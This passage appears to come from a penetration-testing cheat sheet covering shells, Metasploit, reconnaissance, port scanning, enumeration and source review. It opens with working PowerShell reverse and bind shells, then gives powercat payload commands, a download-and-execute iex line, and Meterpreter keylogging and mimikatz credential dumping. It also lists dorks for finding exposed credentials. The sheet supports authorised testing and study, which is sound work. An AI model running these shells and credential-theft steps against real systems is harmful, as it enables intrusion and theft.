  powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```
- ```
  $client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
  $stream = $client.GetStream();
  [byte[]]$bytes = 0..65535|%{0};
  while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  	$sendback = (iex $data 2>&1 | Out-String );
  	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  	$stream.Write($sendbyte,0,$sendbyte.Length);
  	$stream.Flush();
  }
  $client.Close();
  ```

**Set up a bind shell with PowerShell**
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

**Powercat**

Script: [powercat.ps1](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1).

```
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1              Send a file
powercat -c 10.11.0.4 -p 443 -e cmd.exe                                   Send a reverse shell
powercat -l -p 443 -e cmd.exe                                             Set up a bind shell; -l option to create a listener, -p to specify the listening port number, -e to have an application executed once connected
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1             Create a stand-alone payload
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1     Create an encoded stand-alone payload with powercat
```

**Load a remote PowerShell script using iex**
```
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

**Execute an encoded stand-alone payload using PowerShell**
```
powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHI...
```


### <ins>WireShark</ins>

**Filters**
- `net 10.11.1.0/24`, capture traffic only on the `10.11.1.0/24` address range

**Display filters**
- `tcp.port == 21`, only display FTP data

**Misc operations**
- Follow TCP stream: `Right-click` > `Follow` > `TCP Stream`

- [Display Filter Reference](https://www.wireshark.org/docs/dfref/)
- [Wireshark User’s Guide](https://www.wireshark.org/docs/wsug_html_chunked/)


### <ins>Tcpdump</ins>

```
tcpdump -r packets.pcap                                                           Read packet capture
tcpdump -n -r packets.pcap | awk -F" " '{print $3}' | sort | uniq -c | head       Read and filter the packet capture;
                                                                                  -n option to skip DNS name lookups, -r to read from our packet capture file
                                                                                  awk to print the destination IP address and port, sort and uniq -c to sort and count the number of times the field appears in the capture, respectively, head to only display the first 10 lines of the output
tcpdump -n src host 172.16.40.10 -r packets.pcap                                  Tcpdump filters; src host to output only source traffic
tcpdump -n dst host 172.16.40.10 -r packets.pcap                                  Tcpdump filters; dst host to output only destination traffic
tcpdump -n port 81 -r packets.pcap                                                Tcpdump filters; filter by port number
tcpdump -nX -r packets.pcap                                                       -X to print packet data in both HEX and ASCII format
```

**Advanced Header Filtering: display only the data packets**

1. Look for packets that have the `PSH` and `ACK` flags turned on
   - The `ACK` flag will be set for all packets sent and received after the initial 3-way handshake
   - In interactive Application Layer protocols, the `PSH` flag is frequently used to guarantee rapid delivery of a packet and prevent buffering.
2. TCP flags are defined starting from the 14th byte
   - `ACK` and `PSH` are represented by the fourth and fifth bits of the 14th byte
   - Turning on these bits would result in `00011000` = `24` in decimal, verify it with `echo "$((2#00011000))"`
3. To display packets that have the ACK or PSH flags set: `sudo tcpdump -A -n 'tcp[13] = 24' -r packets.pcap`


### <ins>Bash scripting</ins>

- Grep all the subdomains for `target.com` from `index.html`: `grep -o '[^/]*\.target\.com' index.html | sort -u > list.txt`
- Get the IPs from list.txt: `for url in $(cat list.txt); do host $url; done | grep "has address" | cut -d " " -f 4 | sort -u`
- [searchsploit&download.sh](scripts/searchsploit&download.sh) Download all the desired exploits using some Bash-fu
- [zone_transfer.sh](scripts/zone_transfer.sh) DNS zone transfer script


### <ins>Metasploit Framework</ins>

See: [The Metasploit Framework](https://www.metasploit.com/)

#### Starting Metasploit

```
sudo systemctl start postgresql                                start postgresql manually
sudo systemctl enable postgresql                               start postgresql at boot
sudo msfdb init                                                create the Metasploit database
sudo apt update; sudo apt install metasploit-framework         update the Metasploit Framework
sudo msfconsole -q                                             start the Metasploit Framework
```


#### MSF Syntax

```
show -h                                  help flag
show auxiliary                           list all auxiliary modules
search type:auxiliary name:smb           search for SMB auxiliary modules
back                                     move out of the current context and return to the main msf5 prompt
previous                                 switch us back to the previously selected module
services                                 display the metasploit database logs; -p: filter by port number; -s: service name; -h: help command
hosts                                    show discovered hosts
db_nmap 10.11.0.15 -A -Pn                performing a Nmap scan from within Metasploit
workspace                                list workspaces; -a: add a workspace, -d: delete a workspace
sessions -l                              list all sessions; -i: to interact with a session
transport list                           list the currently available transports for the meterpreter connection
```

To interact with a module
- `info` request more info about the module
- `show options` most modules require options
- Use `set` and `unset` to configure the options
- Use `setg` and `unsetg` to configure global options
- `show payloads` list all payloads that are compatible with the current exploit module
- `check` check if the target is vulnerable
- `run` or `exploit` to run the exploit
  - `-j` use as background job
  - `jobs` list background jobs
  - `kill` kill job


#### <ins>Exploit Modules</ins>

#### Staged vs Non-Staged Payloads

- `windows/shell_reverse_tcp` - Connect back to attacker and spawn a command shell
- `windows/shell/reverse_tcp` - Connect back to attacker, Spawn cmd shell (staged)
  - Useful, for example, if the vulnerability you need to exploit doesn't have enough buffer space to hold a full payload

#### Meterpreter

- `upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\tidus`
- `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`
- `shell` get the shell

#### Other notes

- `generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe` mbedding the payload in plink.exe from within msfconsole
- Use the framework `multi/handler` to catch standard reverse shells
  - Works for all single and multi-stage payloads
  - Specify the incoming payload type

#### <ins>Post-Exploitation</ins>

```
screenshot                take a screenshot of the compromised host desktop
keyscan_start             start the keystroke sniffer
keyscan_dump              dump captured keystrokes
keyscan_stop              stop the keystroke sniffer
```

**Migrate your meterpreter process**
- `ps` view all running processes and then pick one
- `migrate PID` migrate the process to PID

**Use mimikatz from meterpreter**
- `load kiwi` run the extension kiwi
- `getsystem` acquire SYSTEM privileges
- `creds_msv` dump the system credentials

**Port forwarding**
- `meterpreter> portfwd -h`
  - Example `portfwd add -l 3389 -p 3389 -r 192.168.1.121`


### <ins>Others</ins>

**For a temporary server**
- `python -m SimpleHTTPServer 7331`
- `python3 -m http.server 7331`
- `php -S 0.0.0.0:8000`
- `ruby -run -e httpd . -p 9000`
- `busybox httpd -f -p 10000`

**For a temporary public server**
- [XAMPP](https://www.apachefriends.org/) + [ngrok](https://ngrok.com/)
- [beeceptor](https://beeceptor.com/)

**For auths**
- [textverified.com](https://www.textverified.com/) for auths requiring a phone number
- [temp-mail.org](https://temp-mail.org/en/)

**To find parameters**
- [Arjun](https://github.com/s0md3v/Arjun) detection of the parameters present in the application
- [ParamSpider](https://github.com/devanshbatham/ParamSpider)

**Asset enumeration/discovery**
- [amass](https://github.com/OWASP/Amass)
  - `amass enum -brute -active -d target -o output/target.txt -v` 
- [subfinder](https://github.com/projectdiscovery/subfinder)
  - `subfinder -d target -all -o output/target_subfinder.txt"`
- [github-subdomains](https://github.com/gwen001/github-subdomains)
- [bgp.he.net](https://bgp.he.net/) to find ASN + `amass intel -asn <ASN>`
- [crt.sh](https://crt.sh/)
  - [Crtsh-Fetcher](https://github.com/m0pam/crtsh-fetcher)
  - To find new domains ` cat json.txt | jq -r '.[].common_name' | sed 's/\*//g' | sort -u | rev | cut -d "." -f 1,2 | rev | sort -u | tee out.txt`
- [gobuster](https://github.com/OJ/gobuster) + [all.txt by jhaddix](https://gist.github.com/jhaddix/86a06c5dc309d08580a018c66354a056)
- [dnsx](https://github.com/projectdiscovery/dnsx)
  - Reverse DNS lookup `cat ip.txt | dnsx -ptr -resp-only` 
- [VhostScan](https://github.com/codingo/VHostScan) to discover virtual hosts
- [gip](https://github.com/dalance/gip) a command-line tool and Rust library to check global IP address.
- [anew](https://github.com/tomnomnom/anew) to add only new subdomains
- [httpx](https://github.com/projectdiscovery/httpx)
  - `type scope.txt | httpx -sc -mc 404` find `404` pages

**Exploits**
- [SearchSploit](https://www.exploit-db.com/searchsploit)
  - `searchsploit afd windows -w -t`; `-w` to return the URL for https://www.exploitdb.com, `-t` to search the exploit title
  - [Download all the desired exploits using some Bash-fu](scripts/searchsploit&download.sh)
- [Packet Storm](https://packetstormsecurity.com)
- [BugTraq](https://bugtraq.securityfocus.com/archive)
- [National Vulnerability Database](https://nvd.nist.gov/)
- [Browser Exploitation Framework (BeEF)](https://beefproject.com/)


**For Reporting**
- [Vulnerability Rating Taxonomy](https://bugcrowd.com/vulnerability-rating-taxonomy)
- [CVSS Calculator](https://www.first.org/cvss/calculator/3.1)
- [PwnDoc](https://github.com/pwndoc/pwndoc)
- [Vulnrepo](https://vulnrepo.com/home)
- [PlexTrac](https://plextrac.com/)
- [Offensive Security Exam Report Template in Markdown](https://github.com/noraj/OSCP-Exam-Report-Template-Markdown)


**Misc tools**
- [URL Decoder/Encoder](https://meyerweb.com/eric/tools/dencoder/)
- [base64encode.org](https://www.base64encode.org/)
- [Down or not](https://www.websiteplanet.com/webtools/down-or-not/)
- [DigitalOcean](https://www.digitalocean.com/) See [Setting Up Your Ubuntu Box for Pentest and Bug Bounty Automation](https://www.youtube.com/watch?v=YhUiAH5SIqk)
- [Exploit Database](https://www.exploit-db.com/)
- [USB Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky)
- [Flipper Zero](https://flipperzero.one/)
- [Create a random text file](https://onlinefiletools.com/generate-random-text-file)
- [BruteSpray](https://github.com/x90skysn3k/brutespray) `python brutespray.py --file nmap.xml --threads 5 --hosts 5`


## Passive Information Gathering (OSINT)

### <ins>Notes</ins>
- [ ] Search for email addresses of employees
  - What's the format? Does it change for founders, chief officers etc.?
- [ ] Search for corporate social media accounts
- [ ] Use [whois](https://who.is/)
  - `whois targetcorp.com`
- [ ] [Google Dorking](#google-dorking)
  - Start searching for PHP files and directory listing
- [ ] See each section of this chapter
- [ ] See also [Content Discovery](#content-discovery)

### <ins>Tools</ins>

- [searchdns.netcraft.com](https://searchdns.netcraft.com/)
  - Search for registration information and site technology entries
- [Recon-ng](https://github.com/lanmaster53/recon-ng)
  - ```
    marketplace search github                                      Search the Marketplace for GitHub modules
    marketplace info recon/domains-hosts/google_site_web           Get information on a module
    marketplace install recon/domains-hosts/google_site_web        Install a module
    modules load recon/domains-hosts/google_site_web               Load a module
    info                                                           Get infos about module loaded
    options set SOURCE targetcorp.com                              Set a source
    run                                                            Run a module
    back                                                           Get  back to default
    show                                                           Show the results; hosts, companies, leaks etc.
    ```
  - Use `recon/domains-hosts/google_site_web` combined with `recon/hosts-hosts/resolve`
- Passively search for information in open-source projects and online code repositories.
  - [GitHub Dorking](#github-dorking)
  - [Gitrob](https://github.com/michenriksen/gitrob)
  - [Gitleaks](https://github.com/gitleaks/gitleaks)
  - [Source code review](#source-code-review)
- [Shodan](https://www.shodan.io/)
  ```
  hostname:targetcorp.com                  Search for TargetCorp’s domain
  hostname:targetcorp.com port:'22'        Search for TargetCorp’s domain running SSH
  ```
  - [Shodan for Chrome](https://chrome.google.com/webstore/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap) and [for Firefox](https://addons.mozilla.org/en-US/firefox/addon/shodan_io/)
- [Security Headers Scanner](https://securityheaders.com/)
- [SSL Server Test](https://www.ssllabs.com/ssltest/)
- [Pastebin](https://pastebin.com/)
- Social media tools
  - [Social Searcher](https://www.social-searcher.com/)
  - [Twofi](https://digi.ninja/projects/twofi.php)
  - [linkedin2username](https://github.com/initstring/linkedin2username)
- [Stack Overflow](https://stackoverflow.com/)
- [Information Gathering Frameworks](https://osintframework.com/)
- [Maltego](https://www.maltego.com/)

### <ins>User Information Gathering</ins>

Note: A company may only approve tests of its own systems. Personal devices, outside email, and social media accounts used by employees often do not come under this authorisation.

**Email Harvesting, [theHarvester](https://github.com/laramies/theHarvester)**

```
theharvester -d targetcorp.com -b google                  -d specify target domain, -b set data source to search
```

**Password Dumps**

Malicious hackers frequently post stolen passwords on Pastebin or other less reputable websites. This is useful for generating wordlists.

An example: [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)


## Active Information Gathering

### <ins>DNS Enumeration</ins>

**host command**
```
host www.targetcorp.com                         Find the A host record
host -t mx www.targetcorp.com                   Find the MX record
host -t txt www.targetcorp.com                  Find the TXT record
host -l <domain name> <dns server address>      Perform a DNS zone transfer; -l: list zone
```

**Brute force forward DNS name lookups** using a list like `possible_subs.txt` containing common hostnames (see [SecLists](https://github.com/danielmiessler/SecLists)):
```
for ip in $(cat possible_subs.txt); do host $ip.megacorpone.com; done
```

**Brute force reverse DNS names**
```
for ip in $(seq 50 100); do host 38.100.193.$ip; done | grep -v "not found"
```

**Tools**
- DNSRecon
  ```
  dnsrecon -d zonetransfer.com -t axfr                      Perform a zone transfer; -t: specify the type of enumeration to perform
  dnsrecon -d zonetransfer.com -D ~/list.txt -t brt         Brute forcing hostnames
  ```
- DNSenum
  ```
  dnsenum zonetransfer.me                                   Perform a zone transfer
  ```
- [zone_transfer.sh](scripts/zone_transfer.sh), DNS zone transfer script


### <ins>Port Scanning</ins>

#### **Netcat**
```
nc -nvv -w 1 -z 10.11.1.220 3388-3390                        Use netcat to perform a TCP port scan
nc -nv -u -z -w 1 10.11.1.115 160-162                        Use netcat to perform an UDP port scan
```

#### **Nmap**

```
nmap 10.11.1.110                                                     Simple nmap scan
nmap -p 1-65535 10.11.1.110                                          Scan all the ports
nmap -sS 10.11.1.110                                                 Stealth / SYN Scanning (will not appear in any application logs)
nmap -sT 10.11.1.110                                                 TCP connect scan
nmap -sU 10.11.1.110                                                 UDP scan
nmap -sS -sU 10.11.1.110                                             Perform a combined UDP and SYN scan
nmap -sn 10.11.1.110                                                 Perform a network sweep
nmap -p 1-65535 -sV -T4 -Pn -n -vv -iL target.txt -oX out.xml        Discover everything including running services using a list of targets
nmap -sn <net_address_in_cdr>                                        Check hosts alive, adding -A you gather more info for a target
nmap -sT -A --top-ports=20 10.11.1.1-254 -oG top-port-sweep.txt      Perform a top twenty port scan, save the output in greppable format
nmap -O 10.11.1.110                                                  OS fingerprinting
nmap -sV -sT -A 10.11.1.110                                          Banner Grabbing, Service Enumeration

Find live hosts
---------------
nmap -v -sn 10.11.1.1-254 -oG ping-sweep.txt
grep Up ping-sweep.txt | cut -d " " -f 2

Find web servers using port 80
------------------------------
nmap -p 80 10.11.1.1-254 -oG web-sweep.txt
grep open web-sweep.txt | cut -d " " -f 2


Nmap Scripting Engine (NSE)
---------------------------
nmap --script-help dns-zone-transfer                                  View information about a script, in this case "dns-zone-transfer"
nmap 10.11.1.110 --script=smb-os-discovery                            OS fingerprinting (SMB services)
nmap --script=dns-zone-transfer -p 53 ns2.zonetransfer.com            Perform a DNS zone transfer
```

#### **Masscan**

```
masscan -p80 10.0.0.0/8                                               Look for all web servers using port 80 within a class A subnet
masscan -p80 10.11.1.0/24 --rate=1000 -e tap0 --router-ip 10.11.0.1   --rate specify the desired rate of packet transmission
                                                                      -e specify the raw network interface to use
                                                                      --router-ip specify the IP address for the appropriate gateway
```

#### Other tools

- [httprobe](https://github.com/tomnomnom/httprobe) designed to find web servers
  - `type subs.txt | httprobe -p http:81 -p http:3000 -p https:3000 -p http:3001 -p https:3001 -p http:8000 -p http:8080 -p https:8443 -c 150 > out.txt`
- [naabu](https://github.com/projectdiscovery/naabu) a fast port scanner
  - A simple usage using a list of subdomains: `naabu -v -list subs.txt -stats -o out.txt`
  - Discover everything faster, excluding some ports maybe already checked: `naabu -l 1.txt -v -p - -exclude-ports 80,443,81,3000,3001,8000,8080,8443 -c 1000 -rate 7000 -stats -o 1_o.txt`  

### <ins>SMB Enumeration</ins>

**Use nmap to scan for the NetBIOS service**<br/>
`nmap -v -p 139,445 -oG smb.txt 10.11.1.1-254`

**Use nbtscan to collect additional NetBIOS information**<br/>
`sudo nbtscan -r 10.11.1.0/24`

**Find various nmap SMB NSE scripts**<br/>
`ls -1 /usr/share/nmap/scripts/smb*`<br/>
Example: `nmap -v -p 139, 445 --script=smb-os-discovery 10.11.1.117`

**Determining whether a host is vulnerable to the MS08_067 vulnerability**<br/>
`nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.11.1.5`<br/>
Note: the script parameter `unsafe=1`, the scripts that will run are almost guaranteed to crash a vulnerable system


### <ins>NFS Enumeration</ins>

**Find and identify hosts that have portmapper/rpcbind running using nmap**<br/>
`nmap -v -p 111 10.11.1.1-254`

**Query rpcbind in order to get registered services**<br/>
`nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254`

**Nmap NFS NSE Scripts**<br/>
`ls -1 /usr/share/nmap/scripts/nfs*`<br/>
Run all these scripts with `nmap -p 111 --script nfs* 10.11.1.117`

**Example of entire /home directory shared**
```
Mount the directory and access the NFS share
--------------------------------------------
mkdir home
sudo mount -o nolock 10.11.1.72:/home ~/home/
cd home/ && ls

Add a local user
----------------
sudo adduser pwn                                         Add the new user "pwn"
sudo sed -i -e 's/1001/1014/g' /etc/passwd               Change the sed of the "pwn" user
cat /etc/passwd | grep pwn                               Verify that the changes have been made
```


### <ins>SMTP Enumeration</ins>

**Interesting commands**
- `VRFY` request asks the server to verify an email address
- `EXPN` asks the server for the membership of a mailing list

**Use nc to validate SMTP users**<br/>
`nc -nv 10.11.1.217 25`

**Script for SMTP user enumeration**
[smtp_vrfy.py](scripts/smtp_vrfy.py) usage: `smtp_vrfy.py <IP> <usernames_file>`


### <ins>SNMP Enumeration</ins>

**Use nmap to perform a SNMP scan**<br/>
`sudo nmap -sU --open -p 161 10.11.1.1-254 -oG open-snmp.txt`

**Use onesixtyone to brute force community strings**
1. Build a text file containing community strings
   ```
   echo public > community
   echo private >> community
   echo manager >> community
   ```
2. Build a text file containing IP addresses to scan<br/>
   `for ip in $(seq 1 254); do echo 10.11.1.$ip; done > ips`
3. Use [onesixtyone](https://github.com/trailofbits/onesixtyone)<br/>
   `onesixtyone -c community -i ips`

Note: Provided we at least know the SNMP read-only community string (in most cases is "public")<br/>
**Use snmpwalk to enumerate**<br/>
- The entire MIB tree: `snmpwalk -c public -v1 -t 10 10.11.1.14`
  - `-c`: specify the community string
  - `-v`: specify the SNMP version number
  - `-t 10` to increase the timeout period to 10 seconds
-  Windows users: `snmpwalk -c public -v1 10.11.1.14 1.3.6.1.4.1.77.1.2.25`
- Windows processes: `snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2`
- Installed software: `snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2`


## Content Discovery

**Some tips**
- If the application is ASP.NET, search for `Appsettings.json`
- Use recursion. If you encounter a `401` response, search with waybackmachine
- Search for past reports in the same program

**Check the tech of a target with**
- [Wappalyzer](https://www.wappalyzer.com/)
- [Webanalyze](https://github.com/rverton/webanalyze) Port of Wappalyzer for command line
  `./webanalyze -host example.com -crawl 1`
- [Shodan for Chrome](https://chrome.google.com/webstore/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap) and [for Firefox](https://addons.mozilla.org/en-US/firefox/addon/shodan_io/)

**Tools**
- [feroxbuster](https://github.com/epi052/feroxbuster)
  - `feroxbuster -u https://example.com/ --proxy http://127.0.0.1:8080 -k -w wordlist.txt -s 200,403`
- [dirsearch](https://github.com/maurosoria/dirsearch)
  - `dirsearch -l list.txt -x 404,500,501,502,503 -e *`
  - `dirsearch -u target.io -x 404,500,501,502,503 -e *`
- [DIRB](https://salsa.debian.org/pkg-security-team/dirb)
  - `dirb http://www.target.com -r -z 10`
- [changedetection.io](https://github.com/dgtlmoon/changedetection.io)
- [ffuf](https://github.com/ffuf/ffuf)

**Crawling**
- [gospider](https://github.com/jaeles-project/gospider)
  - `gospider -s target -c 10 -d 4 -t 20 --sitemap --other-source -p http://localhost:8080 --cookie "0=1" --blacklist ".(svg|png|gif|ico|jpg|jpeg|bpm|mp3|mp4|ttf|woff|ttf2|woff2|eot|eot2|swf|swf2|css)"`
- [hakrawler](https://github.com/hakluke/hakrawler)
  - `cat target.txt | hakrawler -u -insecure -t 20 -proxy http://localhost:8080 -h "Cookie: 0=1"`
- [Katana](https://github.com/projectdiscovery/katana)
  - `katana -u target -jc -kf -aff -proxy http://127.0.0.1:8080" -H "Cookie: 0=1"`

**Wordlists**
- [SecLists](https://github.com/danielmiessler/SecLists)
- [wordlists.assetnote.io](https://wordlists.assetnote.io/)
- [content_discovery_all.txt](https://gist.github.com/jhaddix/b80ea67d85c13206125806f0828f4d10)
- [OneListForAll](https://github.com/six2dez/OneListForAll)
- [wordlistgen](https://github.com/ameenmaali/wordlistgen)
- [Scavenger](https://github.com/0xDexter0us/Scavenger)

**To find more endpoints**
- [Apkleak](https://github.com/dwisiswant0/apkleaks) to get endpoints from an apk
- [Source2Url](https://github.com/danielmiessler/Source2URL/blob/master/Source2URL) to get endpoints from a source code
- [waymore](https://github.com/xnl-h4ck3r/waymore) more results from the Wayback Machine
- [BurpJSLinkFinder](https://github.com/InitRoot/BurpJSLinkFinder)
- [trashcompactor](https://github.com/michael1026/trashcompactor) to remove URLs with duplicate funcionality based on script resources included

### <ins>Google Dorking</ins>
- `ext:` search for: php, php3, aspx, asp, jsp, xhtml, phtml, html, xsp, nsf, form, swf
- `filetype:` search for filetypes like html or php
- `-filetype:html` omit filetype `html`
- Search also for pdf, xlsx, bak and similar, they may contain some infos
- `site:` to target a website and its subdomains
- `inurl:&` to search for parameters
- `intitle:` to search interesting pages like admin, register, login etc.
- `"Seeing something unexpected? Take a look at the GitHub profile guide." "COMPANY-TARGET" site:http://github.com` [[Reference](https://twitter.com/c3l3si4n/status/1580564006263173122)]
- `intext:"© copyright COMPANY YEAR"` [[Reference](https://twitter.com/intigriti/status/1592497655774871553)]
- `site:target.com intext:login intext:username intext:password`
- Exposed .git `intext:"index of /.git" "parent directory"`
- Search for s3 buckets `site:.s3.amazonaws.com "COMPANY"`
- Find CVEs, like CVE-2019-9647 `intext:"Powered by Gila CMS"`
- Errors `site:target.com intext:"Warning: mysql_num_rows()"`
- `intitle:"Index of /" + ".htaccess"`
- `intitle:"index of" "parent directory"` directory listing
- [Google Dorks - Cloud Storage:](https://twitter.com/TakSec/status/1616852760141627393)
  ```
  site:http://s3.amazonaws.com "target.com"
  site:http://blob.core.windows.net "target.com"
  site:http://googleapis.com "target.com"
  site:http://drive.google.com "target.com"
  ```
- [Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

### <ins>GitHub Dorking</ins>
- sensitive words: `password, api_key, access_key, dbpassword, dbuser, pwd, pwds, aws_access, key, token, credentials, pass, pwd, passwd, private, preprod, appsecret`
- languages: `json, bash, shell, java etc.`, example `HEROKU_API_KEY language:json`
- extensions: `extensions: bat, config, ini, env etc.`
- filename: `netrpc, .git-credentials, .history, .htpasswd, bash_history`, example `filename:users`
- [Other dorks](https://github.com/techgaun/github-dorks#list-of-dorks)


## Networking

Checking the routing table
```
ip route        on Linux box
route print     on Windows
netstat -r      on Mac OSX
```

Discover the MAC address
```
ip addr         on Linux
ipconfig /all   on Windows
ifconfig        on MacOS
```

Check ARP cache
```
ip neighbour    on Linux
apr -a          on Windows
arp             on *nix OS
```

Check listening ports and the current TCP connections
```
netstat -ano    on Windows
netstat -tunp   on Linux

on MacOS
--------
netstat -p tcp -p udp
lsof -n -i4TCP -i4UDP
```

Add new routes
```
ip route add <net_address_in_cdr> via <interface_gateway>                             on Linux
route add <net_address_in_cdr> mask <net_address_mask_in_cdr> <interface_gateway>     on Windows
nmap -sn <net_address_in_cdr>                                                         Check hosts alive, adding -A you gather more info for a target
```

Well-known Ports
| Service       | Port          |
| ---           | ---           |
| SMTP          | 25            |
| SSH           | 22            |
| POP3          |  110          |
| IMAP          | 143           |
| HTTP          | 80            |
| HTTPS         | 443           |
| NETBIOS       | 137, 138, 139 |
| SFTP          | 115           |
| Telnet        | 23            |
| FTP           | 21            |
| RDP           | 3389          |
| MySQL         | 3306          |
| MS SQL Server | 1433          |


**Resources**
- [Echo Mirage](https://resources.infosecinstitute.com/topic/echo-mirage-walkthrough/)
- [Wireshark](https://www.wireshark.org/)
- [PCredz](https://github.com/lgandx/PCredz)
- [Impacket](https://github.com/SecureAuthCorp/impacket)
- [putty](https://www.putty.org/)
- [MobaXterm](https://mobaxterm.mobatek.net/)
- [proxychains](https://github.com/haad/proxychains)
  - [learning hacking? DON'T make this mistake!! (hide yourself with Kali Linux and ProxyChains)](https://www.youtube.com/watch?v=qsA8zREbt6g)


## Mobile

**FlappyBird_structure.apk**<br/>
├── **AndroidManifest.xml** meta-information about the app<br/>
├── **META-INF/** a manifest of metadata information<br/>
├── **classes.dex** contains the Java libraries that the application uses<br/>
├── **lib/** compiled native libraries used by the app<br/>
├── **res/** It can store resource files such as pictures, XML files, etc.<br/>
├── **assets/** application assets<br/>
└── **resources.arsc** contains compiled resources in a binary format

**Data storage** search for PII unencrypted in
- [ ] Phone system logs
- [ ] Webkit cache
- [ ] Dbs, plists, etc.
- [ ] Hardcoded in the binary

**Resources**
- [Mobile Application Penetration Testing Cheat Sheet](https://github.com/tanprathan/MobileApp-Pentest-Cheatsheet)
- [Mobile Hacking Cheatsheet](https://github.com/randorisec/MobileHackingCheatSheet)
- [OWASP Mobile Application Security](https://mas.owasp.org/)

**Download APKs**
- [m.apkpure.com](https://m.apkpure.com/it/)
- [apps.evozi.com](https://apps.evozi.com/apk-downloader/)
- [apk-dl.com](http://apk-dl.com/) 

**Emulators**
- [Noxplayer](https://www.bignox.com/)
- [Genymotion](https://www.genymotion.com/) an android emulator
- [Android Studio](https://developer.android.com/studio) Android application development, useful also for the emulator
  - Note: to start only the emulator, use commands such as
    ```cmd
    cd C:\Users\Riccardo\AppData\Local\Android\Sdk\emulator
    emulator -avd Pixel_4_XL_API_30
    ```

**Android tools**
- [adb](https://developer.android.com/studio/command-line/adb) it is used to debug an android device
- [frida](https://github.com/frida/frida/)
- [HTTP Toolkit](https://httptoolkit.tech/) to see requests on a non-rooted or emulated device
- [Java Decompiler](https://java-decompiler.github.io/)
- [dex2jar](https://github.com/pxb1988/dex2jar) decompile an .apk into .jar
- [jadx-gui](https://github.com/skylot/jadx/releases) another tool for producing Java source code from Android Dex and Apk files
- [apktool](https://ibotpeaches.github.io/Apktool/) to unpack an apk
- [APK-MITM](https://github.com/shroudedcode/apk-mitm) removes certificate pinning
- [Apkleak](https://github.com/dwisiswant0/apkleaks) to get endpoints from an apk

## Source code review
- Search for known dangerous functions used on user-supplied input
  - example, `eval(` can cause command injection without proper sanitization
- Search for hardcoded credentials such as API keys, encryption keys and database passwords
  - many API keys start with the same format (ex. AWS keys usually start with `AKIA`), search for patterns
    
	from [ServletTarPit.java](https://github.com/ShiftLeftSecurity/tarpit-java/blob/master/src/main/java/io/shiftleft/tarpit/ServletTarPit.java), [Tarpit Java](https://github.com/ShiftLeftSecurity/tarpit-java)
- Search for weak cryptography or hashing algorithms
- Search for outdated dependencies
- Search for revealing comments

**Digging deeeper**
- Prioritize functions like authentication, autorization, PII etc.
  - example: disclosing PII in the logs, from [OrderStatus.java](https://github.com/ShiftLeftSecurity/tarpit-java/blob/master/src/main/java/io/shiftleft/tarpit/OrderStatus.java)
    
  - example: SQL injection in [OrderStatus.java](https://github.com/ShiftLeftSecurity/tarpit-java/blob/master/src/main/java/io/shiftleft/tarpit/OrderStatus.java)
    
- Follow any code that deals with user input

**Automation**
- Use SAST tools
- Use SCA tools
- Use secret scanners
- Then test the results manually

**Resources**
- [How to Analyze Code for Vulnerabilities](https://www.youtube.com/watch?v=A8CNysN-lOM)
- [OWASP Code Review Guide](https://owasp.org/www-project-code-review-guide/)
- [Tarpit Java](https://github.com/ShiftLeftSecurity/tarpit-java)
- [TruffleHog](https://github.com/trufflesecurity/trufflehog)
- [GitLeaks](https://github.com/zricethezav/gitleaks)
- [Visual Studio Code](https://code.visualstudio.com/) for Source Code Analysis
- [beautifier.io](https://beautifier.io/) for JavaScript Analysis


## Vulnerability Scanning

### <ins>Nessus</ins>

Run Nessus and navigate to `http://localhost:8834`

**Defining targets**<br/>
Top-right, click "New Scan"
- Basic Network Scan: general scan containing a number of tests that may be used against different target types
  - Arguments: a name for the scan and a list of targets (an IP address, an IP range, or comma-delimited FQDN or IP list)
- Credentialed Patch Audit: authenticated scan that enumerates missing patches
- Web Application Tests: specialized scan for locating published Web application security vulnerabilities
